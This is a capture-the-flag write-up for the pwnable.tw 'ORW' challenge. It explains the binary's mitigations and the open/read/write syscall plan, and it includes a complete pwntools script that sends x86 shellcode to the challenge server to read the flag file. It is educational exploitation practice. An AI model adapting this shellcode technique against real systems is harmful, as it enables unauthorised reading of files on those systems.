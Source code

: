 ```yaml
---
title: "ORW [pwnable.tw]"
date: 2020-07-16
draft: false
tags: ["pwnable.tw"]
---
```


This is a pretty awesome challenge! Here we will be writing assembly code in x86 to read the flag file from the server. This is one of the easier challenge in pwnable.tw which is stack based.
<!--more-->

![](/images/pwnable2/pwnable1.png)

## Solution: 

First I check the mitigations :

![](/images/pwnable2/pwnable2.png)

* We have NX disabled. That means it is something to do with the shellcode.
* Seems like there is a canary which will not allow you to do a stack based buffer overflows.
* there is no pie so the address of the binary will be same every time you run.

Let's see the disassembly of this program
![](/images/pwnable2/pwnable.gif)

Here we can see that our input is being put in the address ``0x804a060`` and then it is moved to EAX and then after that EAX is called.
Meaning: our input is being executed. Now, let us run the binary and see what is happening :>

![](/images/pwnable2/pwnable3.png)

> Hmm… We get a segfault.

## Idea:

* As said in the question we will you three syscalls and then get the flag
* First call: open the flag file
* Second call: read the file
* Third call: write it to the output

## Exploit:

We will see the exploit in parts.

## Part 1

![](/images/pwnable2/pwnable4.png)

* We make EAX to 5
* we push the string "///home/orw/flag"
* We make EBX pointing to the stack ( the string )
* We make EDX equal to 0 and then we make the syscall.

## Part 2

![](/images/pwnable2/pwnable5.png)

* We make EAX equal to 3
* We make ECX point to the string
* Give EDX the buffer size
* Call the syscall

## Part 3

![](/images/pwnable2/pwnable6.png)

* We make EAX equal to 4
* Make EBX equal to 0
* Add 1 to EBX / making EBX equal to 1. Then call the syscall.

> Refer to the below image if having any doubts !!

![](/images/pwnable2/pwnable7.png)

If we put all of the things together, then we get the flag.

![](/images/pwnable2/pwnable8.png)

```py

from pwn import *
p = remote('chall.pwnable.tw',10001)
print p.recv()
s = asm("xor eax, eax")
s += asm("push eax")
s += asm("add eax, 5")
s += asm("push 0x67616c66")
s += asm("push 0x2f77726f")
s += asm("push 0x2f656d6f")
s += asm("push 0x682f2f2f")
s += asm("mov ebx, esp")
s += asm("mov edx, 0")
s += asm("int 0x80")
s += asm("mov eax, 3")
s += asm("mov ecx, ebx")
s += asm("mov ebx, 3")
s += asm("mov edx, 40")
s += asm("int 0x80")
s += asm("mov eax, 4")
s += asm("mov ebx, 0")
s += asm("inc ebx")
s += asm("int 0x80")
p.send(s)
f = p.recv()
print f
p.interactive()

```
> update: Back when I wrote this, it was python2, times were good.
 
If you want to try out more pwnable.tw but are stuck you can checkout [pwn-hub: pwnable.tw](https://github.com/tourpran/pwn-hub/tree/main/pwnable.tw) repo